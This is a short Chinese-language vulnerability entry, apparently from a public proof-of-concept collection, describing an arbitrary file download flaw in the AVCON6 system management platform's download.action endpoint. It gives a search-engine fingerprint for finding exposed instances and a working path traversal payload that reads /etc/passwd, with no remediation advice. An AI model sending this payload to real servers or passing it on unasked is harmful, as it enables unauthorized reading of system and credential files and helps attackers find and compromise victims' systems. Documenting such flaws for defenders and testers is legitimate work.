 # AVCON6 系统管理平台 download.action 任意文件下载漏洞

# AVCON6 系统管理平台 download.action 任意文件下载漏洞

## 漏洞描述

AVCON6 系统管理平台 download.action 存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
AVCON6 系统管理平台
```

## 网络测绘

```
app="AVCON-6"
```

## 漏洞复现

登录页面

![img](/images/202202101910735.png)

验证POC

```php
/download.action?filename=../../../../../../etc/passwd
```

![img](/images/202202101910750.png)

